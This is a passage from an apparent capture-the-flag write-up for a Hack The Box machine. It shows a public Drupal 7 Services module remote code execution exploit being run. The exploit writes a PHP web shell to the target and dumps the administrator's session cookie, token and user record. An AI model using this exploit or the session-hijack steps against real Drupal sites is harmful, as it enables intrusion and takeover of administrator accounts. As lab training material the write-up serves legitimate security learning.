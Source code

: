     
    
    root@kali# php 41564.php
    # Exploit Title: Drupal 7.x Services Module Remote Code Execution
    # Vendor Homepage: https://www.drupal.org/project/services
    # Exploit Author: Charles FOL
    # Contact: https://twitter.com/ambionics
    # Website: https://www.ambionics.io/blog/drupal-services-module-rce
    
    
    #!/usr/bin/php
    Stored session information in session.json
    Stored user information in user.json
    Cache contains 7 entries
    File written: http://10.10.10.9/0xdf.php
    

This gives me several options. Inside `session.json`, I now have the cookies
for the administrator’s session:

    
    
    {
        "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
        "session_id": "GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs",
        "token": "JNbtufcqf_g1Cyuln_fYeJH3oAmhKXQzy-MzEc0nIe0"
    }
    

I also have information on the users in `user.json`:

    
    
    {
        "uid": "1",
        "name": "admin",
        "mail": "drupal@hackthebox.gr",
        "theme": "",
        "created": "1489920428",
        "access": "1492102672",
        "login": 1551974856,
        "status": "1",
        "timezone": "Europe\/Athens",
        "language": "",
        "picture": null,
        "init": "drupal@hackthebox.gr",
        "data": false,
        "roles": {
            "2": "authenticated user",
            "3": "administrator"
        },
        "rdf_mapping": {
            "rdftype": [
                "sioc:UserAccount"
            ],
            "name": {
                "predicates": [
                    "foaf:name"
                ]
            },